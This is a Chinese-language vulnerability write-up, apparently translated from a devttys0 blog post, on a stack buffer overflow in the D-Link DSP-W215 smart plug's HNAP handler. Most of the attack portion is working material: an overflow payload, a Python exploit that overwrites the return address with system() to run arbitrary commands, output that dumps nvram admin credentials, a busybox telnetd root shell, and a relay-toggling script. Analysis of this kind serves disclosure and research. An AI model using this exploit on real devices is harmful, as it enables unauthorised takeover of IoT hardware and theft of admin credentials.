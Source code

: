 # D-LinkDSP-W215智能插座远程命令执行

0x00 背景
-------

* * *

D-Link DSP-W215 智能插座是一款通过无线控制电源开关的插座。现在还不能从亚马逊和百思买买到，但是固件可以从D-Link网站下载（真蛋疼）。

DSP-W215存在一个堆栈溢出漏洞，通过该漏洞可以控制整个插座设备，也能控制插座设备上其他电器设备的开关。

0x01 分析
-------

* * *

分析插座的固件：

![enter image description here](http://drops.javaweb.org/uploads/images/a281455f4b4ad43f6196e93896227f58ee5d5f24.jpg)

Lzma 压缩，linux文件系统，uimage 内核压缩镜像。

解压检查文件的内容，发现没有基于web的管理界面，只能用它提供的Android 或者IOS应用进行管理，该应用使用了HNAP（家庭网络管理协议）。

HNAP是基于soap 协议，其req/res如下：

![enter image description here](http://drops.javaweb.org/uploads/images/b64beed2d157d9183ba104e37194ceb6d578d737.jpg)

更多查看[http://www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf](http://www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf)

这个智能插座用lighttpd轻量级服务器来实现HNAP协议的传输，从lighttpd的配置上看，HNAP请求都发送到了`/www/my_cgi.cgi`进行处理。

```
...
alias.url += ( "/HNAP1/" => "/www/my_cgi.cgi",
               "/HNAP1"  => "/www/my_cgi.cgi",
...

```

HNAP虽然是需要进行认证的协议，但是某些行为是不需要的，如获取设备信息设置之类。

![enter image description here](http://drops.javaweb.org/uploads/images/f9f68604ed297c6faf0b9693d55488437e909f82.jpg)

HNAP请求数据是由在my_cgi.cgi的do_hnap函数处理。do_hnap会首先处理POST请求中指定的Content-Length头。

![enter image description here](http://drops.javaweb.org/uploads/images/eab5083ed3f2d2e86eb37a26ed3d769b06c28f7d.jpg)

转换长度（str）为int.

然后，它读取上述长度字节的数据放入一个分配了固定大小的栈中。（500,000字节）

![enter image description here](http://drops.javaweb.org/uploads/images/7a0887cd22697862882173151f9e8d6dd328acd7.jpg)

F5转换成c代码为：

```
int content_length, i;
char *content_length_str;
char post_data_buf[500000];

content_length = 0;
content_length_str = getenv("CONTENT_LENGTH");

if(content_length_str)
{
   content_length = strtol(content_length_str, 10);
}

memset(post_data_buf, 0, 500000);

for(i=0; i<content_length; i++)
{
   post_data_buf[i] = fgetc();
}

```

明显未对content_length进行检查，可以写入大于500,000字节的数据进行溢出，但是栈里不止包含post_data_buf这个数组，所以需要1,000,020 进行溢出。

```
perl -e 'print "D"x1000020; print "A"x4' > overflow.txt
wget --post-file=overflow.txt http://192.168.0.60/HNAP1/

```

![enter image description here](http://drops.javaweb.org/uploads/images/afe2fe6d33f0fbf68165a71eae3a64f0593397f0.jpg)

Arm寄存器真蛋疼。

由于是getc获取的数据，所以可以传入空字节。作者测试自己my_cgi.cgi进程中执行system地址0x00405CAC需要读入空字节。

![enter image description here](http://drops.javaweb.org/uploads/images/915721c5f3e5120260f566aecef11a85021967e5.jpg)

所以 ，只需要把返回地址覆盖成0x00405CAC，并把栈的偏移28位处加入需要执行的指令代码。

0x02 EXP
--------

* * *

```
import sys
import urllib2

command = sys.argv[1]

buf =  "D" * 1000020         # Fill up the stack buffer
buf += "\x00\x40\x5C\xAC"    # Overwrite the return address on the stack
buf += "E" * 0x28            # Stack filler
buf += command               # Command to execute
buf += "\x00"                # NULL terminate the command string

req = urllib2.Request("http://192.168.0.60/HNAP1/", buf)
print urllib2.urlopen(req).read()

```

执行后得到的数据：

```
eve@eve:~$ ./exploit.py 'ls -l /'
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 bin
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 dev
drwxrwxr-x    3 1000     1000         4096 Sep  3  2010 etc
drwxrwxr-x    3 1000     1000         4096 Jan 14 14:16 lib
drwxr-xr-x    3 1000     1000         4096 Jan 14 14:16 libexec
lrwxrwxrwx    1 1000     1000           11 May  9 16:01 linuxrc -> bin/busybox
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 lost+found
drwxrwxr-x    7 1000     1000         4096 May  9 15:44 mnt
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 mydlink
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 proc
drwxrwxr-x    2 1000     1000         4096 May  9 17:49 root
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 sbin
drwxrwxr-x    3 1000     1000         4096 May 15 04:27 tmp
drwxrwxr-x    7 1000     1000         4096 Jan 14 14:16 usr
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 var
-rw-r--r--    1 1000     1000           17 Jan 14 14:16 version
drwxrwxr-x    8 1000     1000         4096 May  9 16:52 www

```

也可以直接dump配置：

```
eve@eve:~$ ./exploit.py 'nvram show' | grep admin
admin_user_pwd=200416
admin_user_tbl=0/admin_user_name/admin_user_pwd/admin_level
admin_level=1
admin_user_name=admin
storage_user_00=0/admin//

```

或通过开启telnet得到一个shell

```
eve@eve:~$ ./exploit.py 'busybox telnetd -l /bin/sh'
eve@eve:~$ telnet 192.168.0.60
Trying 192.168.0.60...
Connected to 192.168.0.60.
Escape character is '^]'.


BusyBox v1.01 (2014.01.14-12:12+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/ #

```

打开开关 关闭开关

```
/var/sbin/relay 1   # Turns outlet on
/var/sbin/relay 0   # Turns outlet off

```

作者还搞了个让灯闪烁的脚本：

```
#!/bin/sh

OOK=1

while [ 1 ]
do
   /var/bin/relay $OOK

   if [ $OOK -eq 1 ]
   then
      OOK=0
   else
      OOK=1
   fi
done

```

D-Link’s DIR-505L也存在这个漏洞。

from:http://www.devttys0.com/2014/05/hacking-the-d-link-dsp-w215-smart-plug/